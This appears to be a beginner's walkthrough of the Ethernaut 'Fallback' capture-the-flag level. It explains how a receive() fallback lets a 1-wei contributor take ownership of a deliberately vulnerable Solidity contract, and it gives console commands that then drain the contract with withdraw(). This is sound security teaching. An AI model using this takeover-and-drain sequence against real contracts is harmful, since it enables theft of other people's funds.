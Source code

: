 # Ethernaut - Walkthrough for Noobs - 1 - Fallback

In this series of articles, I will talk about how to solve the ethernaut challenge.

I will explain the concepts to provide you with all the tools to solve the challenge on your own without revealing the solutions. In the end, however, I will provide the solution in case anyone is stuck.

> Here is our objective:
> 
> You will beat this level if
> 
> 1. you claim ownership of the contract
>     
> 2. you reduce its balance to 0.
>     

## Concept

Only the following code is of use to us.

```solidity
constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
```

```solidity
function contribute() public payable { 
    require(msg.value < 0.001 ether); 
    contributions[msg.sender] += msg.value; 
    if(contributions[msg.sender] > contributions[owner]) { owner =           msg.sender; } 
}
```

The first code block constructs that the owner of the contract has contributed 1000 ethers. The second block states that if the contributions of `msg.sender` exceeds that of the owner `msg.sender` becomes the new owner. But the catch here is that the `require` statement only allows us to send less than 0.001 ethers every time. We can possibly write a loop function and exploit it but let's be honest, nobody actually will have 1000 ethers lying around even on the Goerli test net.

To exploit the code, we need something else.

```solidity
receive() external payable {
require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

This is what you would call a fallback function. It will automatically trigger when:

* we call a function that does not exist.
    
* the function selector does not match any function in the contract.
    
* the call is made without call data.
    

As you can see the `receive` function is an *external* and *payable* function. What that essentially means is that it can only be called from outside the contract and allows the contract to be able to receive ether.

It also requires us to fulfill certain criteria: `require(msg.value > 0 && contributions[msg.sender] > 0);`

If we do that we will be able to become the owner and subsequently be able to reduce its balance to 0 using the withdraw function.

```solidity
 function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

## Solution

* Open the console in your browser and create a new level instance.
    
* Contribute at least 1 Wei.
    
* ```solidity
        await contract.contribute({ value: 1 })
    ```
    
* Now we can trigger the `receive` fallback function.
    
* ```solidity
        await contract.sendTransaction({ from: player, value: 1 })
    ```
    
* Now, this should set us up as the new contract owner.
    
* Call the withdraw function to drain the funds.
    
* ```solidity
      await contract.withdraw()
    ```
    
* We should have fulfilled all the objectives. You can cross-verify by checking the balance in the contract.
    
* ```solidity
      await getBalance(contract.address)
    ```
    
    If it returns 0, you can submit the instance.
    

Fallback ✅